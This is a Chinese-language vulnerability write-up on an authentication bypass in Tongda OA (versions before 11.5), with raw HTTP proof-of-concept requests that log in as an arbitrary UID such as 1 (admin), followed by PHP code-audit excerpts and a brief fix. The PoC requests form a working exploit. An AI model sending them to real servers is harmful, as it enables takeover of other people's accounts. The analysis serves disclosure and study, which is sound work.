 ```yaml
---
layout: post
title:  "通达OA越权登录漏洞分析"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA越权登录漏洞的分析文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

2020年4月中旬的时候，通达OA发布了11.5新版本。国内安全研究人员通过代码比对，发现了此漏洞。此漏洞可以越权登录任意用户账号，影响极大。

漏洞成因是由于前台登陆时未作权限验证，程序开启全局覆盖，可以直接覆盖 _SESSION 里的数据造成任意用户登陆。 服务端只取了UID来做用户身份鉴别，由于UID是整型递增ID，从而导致可以登录指定UID用户。

## 0x02 漏洞分析

- 影响版本：通达OA2017、V11.X<V11.5
- 发现时间：2020-04-01

### 一、Payload

先上payload。

11.4版poc1：

```
GET /general/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

```
GET /ispirit/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

11.4版poc2:

```
POST /logincheck_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

CODEUID=%7BF1643A67-D96F-BB39-E350-AED1A70E5FB9%7D&UID=1
```

2017版poc1：

```
GET /ispirit/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

2017版poc2：

```
POST //general/login_code_scan.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 94
Content-Type: application/x-www-form-urlencoded

codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D&uid=1&source=pc&type=confirm&username=admin
```

2017版poc3：

```
GET //ispirit/login_code_check.php?codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

### 二、代码审计

- /logincheck_code.php:11-18行。UID通过post传参。如果CODEUID存在，则不会exit。

  ```php
  $redis = TRedis::redis();
  $UID = intval($_POST["UID"]);
  $CODEUID = $_POST["CODEUID"];
  $login_codeuid = TD::get_cache("CODE_LOGIN" . $CODEUID);
  if (!isset($login_codeuid) || empty($login_codeuid)) {
  	$databack = array("status" => 0, "msg" => _("参数错误！"), "url" => "general/index.php?isIE=0");
  	echo json_encode(td_iconv($databack, MYOA_CHARSET, "utf-8"));
  	exit();
  ```

- /logincheck_code.php:180行。UID用户可控。CODEUID用户可控。

  ```php
  $LOGIN_UID = $UID;
  $LOGIN_USER_ID = $USER_ID;
  $LOGIN_BYNAME = $BYNAME;
  $LOGIN_USER_NAME = $USERNAME;
  $LOGIN_ANOTHER = "0";
  $LOGIN_USER_PRIV_OTHER = $USER_PRIV_OTHER;
  $LOGIN_DEPT_ID_JUNIOR = GetUnionSetOfChildDeptId($LOGIN_DEPT_ID . "," . $LOGIN_DEPT_ID_OTHER);
  $LOGIN_CLIENT = 0;
  $_SESSION["LOGIN_UID"] = $LOGIN_UID;
  $_SESSION["LOGIN_USER_ID"] = $LOGIN_USER_ID;
  ```

- /logincheck_code.php:164行。通过UID的值去数据库里面去取值，

  > $UID -> $query1 -> $cursor1 -> $row

  ```php
  $LOGIN_FUNC_STR = "";
  $query1 = "select user_func_id_str from user_function where uid='$UID'";
  $cursor1 = exequery(TD::conn(), $query1);
  
  if ($row = mysql_fetch_array($cursor1)) {
  	$LOGIN_FUNC_STR = $row["user_
  ```

### 三、漏洞修复

不要通过用户可控的UID作为权限校验的方法。

## 0x03 参考链接

- http://www.0e0w.com
